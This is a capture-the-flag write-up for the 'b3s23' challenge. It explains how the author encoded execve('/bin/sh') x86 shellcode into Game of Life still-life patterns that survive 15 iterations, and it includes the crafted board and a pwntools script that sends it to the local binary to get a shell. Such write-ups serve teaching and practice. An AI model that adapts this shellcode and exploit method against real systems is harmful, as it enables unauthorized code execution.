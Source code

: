 # bs323

> Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.

Basic interaction with the binary quickly indicates that the program interprets the input as the set of live cells on a Conway's Game of Life board. After some minor reverse engineering, we see that The board is stored as a 12100-bit array, in 110 rows of 110 bits each. The binary runs 15 iterations of Game of Life on the board, and then it jumps to the first byte of the board data structure. So we need to create a board that will have shellcode at the start of the board after the Game of Life iterations.

## Game of Life
Conway's Game of Life is a famous cellular automata game. The rules are simple. The game takes place on a square grid, and a set of cells is initially colored black, or alive. The rest of the cells are considered dead. The game proceeds in steps. Each turn, you count each cell's number of live neighbors. If a live cell has 0 or 1 neighbors, it dies (turns white) in the next step (underpopulation). If a live cell has 4 or more neighbors, it also dies in the next step (overpopulation). A dead cell with exactly three neighbors becomes alive (reproduction).

This block has the implementation of the basic Game of Life rules, first counting a cell's neighbors and then deciding whether to make it alive in the next step.

![Game of Life block]
(images/isgameoflife.png)

## Shellcode Evolution
Since the entire point of Game of Life is that the evolution is difficult to predict(in fact, it's capable of representing Turing-complete computation), we need to set up the board carefully so it will evolve predictably. The easiest way to do this is to place only static structures on the board. Game of Life enthusiasts have created catalogs of all the small static patterns, which are known as "still-lifes". See http://codercontest.com/mniemiec/p1.htm for one useful example.

Execution effectively occurs across the board's rows, so we can place the code without regard to its Game of Life evolution and then use the surrounding rows to make the executing row static. We'll have to use jumps to get from each executing row to the next.

## Shellcode Choice
The shortest approach is to put code that calls `read` with the board as the destination and then send the real shellcode. Unfortunately, we didn't think of this during the competition, so we just put standard shellcode (`execve("/bin/sh", {"/bin/sh, NULL"}, ))`) on the board.

## Still-life Construction
Constructing still-lifes containing arbitrary code is actually somewhat difficult. For example, we could not find a small still-life that we could place on the board to create a sequence of five or more consecutive one-bits (live cells). So we just avoided any instructions or data with that many ones in a row.

One useful primitive to decouple adjacent instructions is the instruction `add al, 0`, which is represented as `0x04 0x00` in machine code. This instruction allows you to separate any potentially problematic adjacent instructions, because essentially all the bits are off.

One other useful primitive to combine still-life patterns is that adjacent walls (vertical sequences of live cells) do not interfere, as long as they match. So the following arrangement of two still-life patterns (the snake and the block) works:
```
xx x xx
x xx xx
```

Of course, any patterns separated by a gap of two columns or two rows will not interfere as well.

## Board
Below, we have the board we used, with shellcode inline. Executing lines are marked as beginning with `>` characters and ending with `|` characters.

```
>xxx   x   xxxx  | JNO $+1Eh;
x   x x x  x  x                       x xx x xx x xx
 x  x x x                       >   xxx x xx x xx x  | JMP $+5A;
  x x xx                           x               xxx
   x                               xx                x 

PUSH $0; PUSH $68h; XOR EAX, EAX; OR AL, $2Fh; ADD AL, $0; JMP $+55h;                       x   x
   xx xx           xx xx                   x          xx   xx x  x                  x xx x x x x x 
>  xx x x          xx x x  xx x     xx   xxx          xx    x xxxx     x          xxx x xx x x x x|
      x x             x x  x xx     xx  x                   x         x x        x          x   x
      xx              xx                xx                 xx   xx     x         xx
                                                                xx

OR AH, $73h; PUSH AX; PUSH $0Bh; POP EAX; JMP $+56h;                              x   
                           x              x      xx xx                    x xx x x x xx
>       x       xx  xx   xxx  xx xx  xx  x x     xx x x     x xx x xx   xxx x xx x x xx |
       x x      xx  xx  x     xx xx  xx   x         x x     xx x xx x  x          x    
        x               xx                          xx                 xx         

PUSH $6E69626Fh; ADD AL, 0; PUSH ESP; POP EBX; JNO $+56h;
                                            xx     x                                  x   x
       xx xx   xx x  x xx  xx                x    x x          xx     xx xx xx x     x x x x xx
>      xx x     x xxxx xx   x  xx x  x xx xxx      x           x x x   x xx xx xxx   x x x x xx |
          x     x          x   x xx  xx x x                       xx   x          x   x   x
          xx   xx   xx xx  xx                                         xx         xx
                    xx xx                                                     
PUSH ESP; POP ECX; XOR EDX, EDX; PUSH EDX; PUSH EBX; PUSH ESP; POP ECX; INT $80h;
                                                                 x
     xx           xx  xx     x xx    xx  xx   x   xx xx      xx x x
>    x x x   x xx  x  xx   xxx x  x  x x  x  x x  xx x x x   x xx  x     x          xx  xx xx |
        xx   xx x x       x      xx     xx    x         xx        xx    x x         xx  xx xx
                 x        xx                                             x
```

## Script
The following Python code converted this board into the program input and ran the exploit:

```
import re
from pwn import *

f = open('board.txt')
s = f.read()

rows = s.split('\n')
coords = [[(a.start(),i) for a in re.finditer('x', rows[i])] for i in range(len(rows))]
flatcoords = reduce(lambda x,y: x+y, coords)

tube = process("./b3s23")

for (x,y) in flatcoords:
    tube.writeline('{},{}'.format(x,y))

tube.writeline('lol')

for i in range(15):
    tube.recvuntil('01110001000111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000')

tube.interactive()
```
